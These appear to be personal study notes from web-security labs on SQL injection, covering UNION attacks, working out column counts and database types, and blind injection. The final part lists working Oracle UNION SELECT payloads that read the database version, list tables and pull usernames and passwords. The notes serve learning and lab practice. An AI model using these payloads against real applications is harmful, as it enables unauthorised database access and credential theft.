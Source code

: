 UNION operator - SQL injection UNION attack
	rules - SQL injection UNION attack
	combining results into a single column - SQL injection UNION attack
gathering information - SQL injection UNION attack
	determining number of columns - SQL injection UNION attack
	determining column datatype - SQL injection UNION attack
	get column names - SQL injection - database types
	get table names - SQL injection - database types
database differences - SQL injection - database types
	determine database type - SQL injection - database types
conditional responses - Blind SQL injection


[[SQL injection attack, listing the database contents on non-Oracle databases]]
[[SQL injection attack, listing the database contents on Oracle]]
[[SQL injection attack, querying the database type and version on MySQL and Microsoft]]
[[SQL injection attack, querying the database type and version on Oracle]]
[[SQL injection with filter bypass via XML encoding]]
[[Blind SQL injection with conditional responses]]


- `union select null from dual` - assuming the right number of columns, this only works with oracle databases
- `Gifts'+UNION+SELECT+banner,NULL+FROM+v$version--` - worked with two columns and oracle database, the first null was tested to be for strings, printed database version
- `Gifts'+UNION+SELECT+table_name,NULL+FROM+all_tables--` - same situation, listed all table names
- `Gifts'+UNION+SELECT+USERNAME_SXESZI||'~'||PASSWORD_SSWMPS,NULL+FROM+USERS_XZCHWC--` - same situation, listed usernames and passwords
- PostgreSQL needs strings to have single quotes, not double quotes